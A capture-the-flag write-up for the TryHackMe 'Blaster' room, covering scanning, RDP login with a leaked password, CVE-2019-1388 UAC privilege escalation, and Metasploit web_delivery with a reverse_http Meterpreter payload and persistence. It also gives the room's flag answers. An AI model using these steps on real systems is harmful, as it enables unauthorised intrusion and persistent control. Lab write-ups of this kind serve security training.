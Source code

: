 # Blaster

* [TryHackMe: Blaster](https://tryhackme.com/room/blaster)

## Mission Start!

The CTF background notes that we’ll be attacking a Windows box. So no ping responses again.

## Activate Forward Scanners and Launch Proton Torpedoes

The machine we’ll be attacking is at 10.10.223.185. As usual, we’ll start out with an nmap scan:

```bash
sudo nmap -v -oA blaster -Pn -A -T4 -sS -script vuln \
          -p- 10.10.223.185
```

Which gives us:

```
# Nmap 7.92 scan initiated Wed Dec  8 19:55:54 2021 as: nmap -v -oA blaster -Pn -A -T4 -sS -script vuln -p- 10.10.223.185
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.223.185
Host is up (0.23s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|2016 (90%), FreeBSD 6.X (85%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016 cpe:/o:freebsd:freebsd:6.2
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (90%), Microsoft Windows Server 2016 (89%), FreeBSD 6.2-RELEASE (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.013 days (since Wed Dec  8 19:54:04 2021)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   34.47 ms  10.13.0.1
2   ... 3
4   351.16 ms 10.10.223.185

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec  8 20:12:16 2021 -- 1 IP address (1 host up) scanned in 982.31 seconds
```

FLAG 1: How many ports are open on the target? — 2

Looks like IIS running on port 80. Let’s go take a peek.

…And, it’s just the default IIS “hello world” page. Looks a damn sight prettier than Apache’s.

FLAG 2: What is the title of the webserver’s index page? — IIS Windows Server

Since there’s nothing obvious here (and because the CTF is prompting us to do so), let’s sic gobuster on this to see if there’s anything interesting that’s not linked to the (default) index page.

```bash
gobuster \
	-t 10 dir \
	-w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt \
	-u http://10.10.223.185/
```

FLAG 3: What is the hidden directory on the webserver? — /retro

Browsing to this directory reveals an entire “Retro Fanatics” website. All posts are by “Wade”.

FLAG 4: What username is associated with this hidden directory? — Wade

Pocking around a bit more reveals a somewhat cryptic comment on a post:

> Leaving myself a note here just in case I forget how to spell it: parzival

Who wants to bet that this is Wade’s password?

FLAG 5: What potential password is associated with this user? — parzival

Let’s load up XFreeRDP and see if we can log in, shall we?

```bash
xfreerdp /dynamic-resolution +clipboard /cert:ignore \
         /v:10.10.223.185 /u:Wade /p:parzival
```

Boom!

FLAG 6: What are the contents of `user.txt`? — `THM{HACK_PLAYER_ONE}`

## Breaching the Control Room

There’s no obvious files when pocking around except an hhupd.exe file on the desktop, and IE’s history is empty.

Since I know we’re looking for a CVE name, at this point I just used the Windows File Explorer to search Wade’s home directory for “CVE”. And lo-and-behold, there’s a cached HTML file in C:/Users/Wade/AppData/Local/Microsoft/Windows/INetCache/Low/IE/7Z6YUWVY called cvename[1].htm which contains a website referencing CVE-2019-1388 (it looks like a slightly older version of the MITRE CVE page on CVE-2019-1388).

FLAG 7: What CVE was the initially compromised user researching? — CVE-2019-1388

(I feel like the approach I just used — making an educated guess about what the CTF was looking for and then just searching for it — is kind of a cop-out. *But*, the hint for this question states that I should check IE’s history, which I did… So perhaps the room’s broken?)

Anyways, I’m guessing that the hhupd.exe file on the desktop is the one that will exploit this vulnerability, since it’s badged as needing administrative privileges and CVE-2019-1388 is a vulnerability in the UAC screen.

FLAG 8: What is the name of the executable the user was experimenting with? — hhupd.exe

In fact, a search for “CVE-2019-1388 exploit” pulls up a page that references hhupd.exe and helpfully links to a YouTube video demoing how this exploit works. It looks like the steps here are:

* Try to run hhupd.exe.
* Show details on the UAC prompt.
* Click on the certificate information link.
* Click on the issuer link. This will open up an instance of IE running with elevated permissions in the background.
* Exit the UAC dialog.
* Bring up the save dialog in IE.
* Navigate to `C:/Windows/System32/*.*` and open cmd.exe.

FLAG 9: What is the output of `whoami` in the terminal spawned using the user’s exploit? — `nt authority\system`

The final flag is in the Administrator’s Desktop folder.

FLAG 10: What are the contents of `root.txt`? — `THM{COIN_OPERATED_EXPLOITATION}`

## Adoption into the Collective

Target information isn’t immediately obvious in Metasploit; after selecting `exploit/multi/script/web_delivery` we’ll need to run `info` to see all of the options.

FLAG 11: What is the target number for PSH when using `exploit/multi/script/web_delivery` in Metasploit? — 2

Let’s set things up and run the exploit:

```msfconsole
set target 2
set SRVHOST 10.13.26.40
set LHOST 10.13.26.40
set payload windows/meterpreter/reverse_http
run -j
```

(NOTE: I found that I needed to set the SRVHOST option to get Metasploit to deliver the exploit on the right interface.)

This particular exploit outputs and encoded PowerShell script and then starts a local listener to deliver the actual Meterpreter shell. All we need to do is cut-and-paste into our elevated shell.

(For whatever reason, I could *only* get this exploit working with the 32-bit version of Meterpreter *and* the `run -j` command. I’m not sure why…)

FLAG 12: What command can be used in Meterpreter to establish on-boot persistence on this machine? — `run persistence -X`

(NOTE: Meterpreter flags this as being deprecated now; the modern pattern seems to be to background Meterpreter and then switch to and exploit the `exploit/windows/local/persistence` module, probably with `set STARTUP SYSTEM`.)

ELAPSED TIME: 2 h 15 min

## References

* [Using “nmap”](nmap.md)
* [Using “gobuster”](gobuster.md)
* [Using XFreeRDP](xfreerdp.md)
* [CVE-2019-1388 (MITRE)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-1388)
* [CVE-2019-1388 (nagenrauft-consulting.com)](https://www.nagenrauft-consulting.com/2019/11/21/cve-2019-1388-hhupd-exe/)
* [CVE-2019-1388: Windows Privilege Escalation Through UAC](https://www.youtube.com/watch?v=3BQKpPNlTSo)
* [Using Metasploit](metasploit.md)
* [Using PowerShell](powershell.md)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> December 6, 2021
